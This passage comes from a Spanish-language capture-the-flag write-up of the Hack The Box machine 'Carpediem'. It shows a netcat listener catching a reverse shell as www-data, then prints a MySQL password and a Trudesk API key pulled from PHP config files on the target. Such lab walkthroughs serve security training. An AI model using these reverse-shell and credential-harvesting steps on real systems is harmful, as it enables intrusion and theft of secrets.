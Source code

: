 ![imagen12](/assets/images/Carpediem/carpediem12.png)

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/carpediem$ sudo nc -lnvp 443                                            
[sudo] password for gu3ro: 
Sorry, try again.
[sudo] password for gu3ro: 
listening on [any] 443 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.11.167] 37148
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$ whoami
whoami
www-data
www-data@3c371615b7aa:/var/www/html/portal/uploads$ hostname -I
172.17.0.6 
```
Dentro nos encontramos credenciales para mysql, las guardaremos si es que se necesitan.

```shell
class DBConnection{

    private $host = 'mysql';
    private $username = 'portaldb';
    private $password = 'J5tnqsXpyzkK4XNt';
    private $database = 'portal';
```
Igualmente encontramos información sobre trudesk, podríamos investigar cómo realizar peticiones a este servicio.

```shell
www-data@3c371615b7aa:/var/www/html/portal/classes$ cat Trudesk.php 
<?php
class TrudeskConnection{

    private $host = 'trudesk.carpediem.htb';
    private $apikey = 'f8691bd2d8d613ec89337b5cd5a98554f8fffcc4';
    private $username = 'svc-portal-tickets';
    private $password = '';
    private $database = '';
    
}
?>
```
Podemos realizar peticiones para ver si hay tickets disponibles.
